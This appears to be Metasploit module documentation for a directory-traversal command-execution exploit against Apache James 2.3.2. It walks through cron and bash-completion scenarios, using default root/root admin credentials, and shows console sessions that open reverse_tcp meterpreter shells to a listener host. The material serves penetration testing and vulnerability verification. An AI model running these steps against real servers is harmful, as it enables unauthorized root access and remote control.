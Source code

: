 ## Vulnerable Application
  This module exploits a vulnerability that exists due to a lack of input validation when creating a user in Apache James 2.3.2.
  By creating a user with a directory traversal payload as the username, commands can be written to a given directory/file.
  Instructions for installing the vulnerable application for testing can be found here:
  https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf

## Verification Steps
  __1.__ Start msfconsole

  __2.__ DO: Load module exploit/linux/smtp/apache_james_exec

  __3.__ DO: Set the remote and local options: rhosts, lhosts, lport

  __4.__ DO: Set the preferred payload

  __5.__ DO: Run the check method to determine vulnerability

  __6.__ DO: Run the exploit

  __7.__ The payload will connect to the listener if the exploit is successful

## Options
  **USERNAME:**  The administrator username for Apache James 2.3.2 remote administration tool. By default this is 'root'.

  **PASSWORD:**  The administrator password for Apache James 2.3.2 remote administration tool. By default this is 'root'.

  **ADMINPORT:**  The port for Apache James 2.3.2 remote administration tool. By default this is '4555'.

  **RHOSTS:**  The IP address of the vulnerable server.

  **RPORT:**  The port number of the SMTP service.

  **POP3PORT** The port for the POP3 Apache James Service.  By default this '110'.

## Scenarios
  **If using Cron exploitation method:** This method allows for automatic execution of the payload with no user interaction
  required and gives the attacker root privileges. It will also attempt to automatically cleanup the malicious user and the
  mail objects.

  __1.__ Load the module:

```
  msf5 > use exploit/linux/smtp/apache_james_exec
```

  __2.__ Set remote and local options:

```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 1
  target => 1
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts  192.168.224.169
  rhosts =>  192.168.224.169

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167
  lhost => 192.168.224.167
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444
  lport => 4444
```

  __3.__ Set payload:

```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
```

  __4.__ Check version and run exploit:

```
  msf5 exploit(linux/smtp/apache_james_exec) > check
  [*] 192.168.224.164:25 - The target appears to be vulnerable.
  msf5 exploit(linux/smtp/apache_james_exec) > exploit
  
  [*] Started reverse TCP handler on 192.168.224.167:4444
  [+] 192.168.224.169:25 - Waiting 60 seconds for cron to execute payload
  [*] Sending stage (3021284 bytes) to 192.168.224.169
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.169:38694) at 2020-02-02 16:30:02 -0800
  [*] 192.168.224.169:25 - Command Stager progress - 100.00% done (812/812 bytes)

  meterpreter >
```

  ---------------------------------------------------------------------------------------------
  **If using Bash Completion:** This method may be preferable if targeting a linux operating system such as some versions of Ubuntu that
  fails to run the cron method for exploitation. This exploitation method will leave an Apache James mail object artifact in the
  /etc/bash_completion.d directory and the malicious user account.

  __1.__ Load the module:

```
  msf5 > use exploit/linux/smtp/apache_james_exec
```

  __2.__ Set remote and local options:

```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 0
  target => 0
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts 192.168.224.164
  rhosts => 192.168.224.164

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167
  lhost => 192.168.224.167
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444
  lport => 4444
```

  __3.__ Set payload:

```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
```

  __4.__ Check version and run exploit:

```
  msf5 exploit(linux/smtp/apache_james_exec) > check
  [*] 192.168.224.164:25 - The target appears to be vulnerable.
  msf5 exploit(linux/smtp/apache_james_exec) > exploit

  [*] 192.168.224.164:25 - Command Stager progress - 100.00% done (812/812 bytes)
```

  __5.__ Set up and run listener (Can be done before running exploit):

```
  msf5 exploit(linux/smtp/apache_james_exec) > use exploit/multi/handler
  msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lport 4444
  lport => 4444
  msf5 exploit(multi/handler) > set lhost 192.168.224.167
  lhost => 192.168.224.167

  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.224.167:4444
  [*] Sending stage (3021284 bytes) to 192.168.224.164
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.164:34752) at 2020-01-18 18:25:14 -0800

  meterpreter >
```

## Targets
```
  Id  Name 
  --  ----
  0   Bash Completion
  1   Cron
```

## References
  1. <https://www.exploit-db.com/exploits/35513>
  2. <https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf>
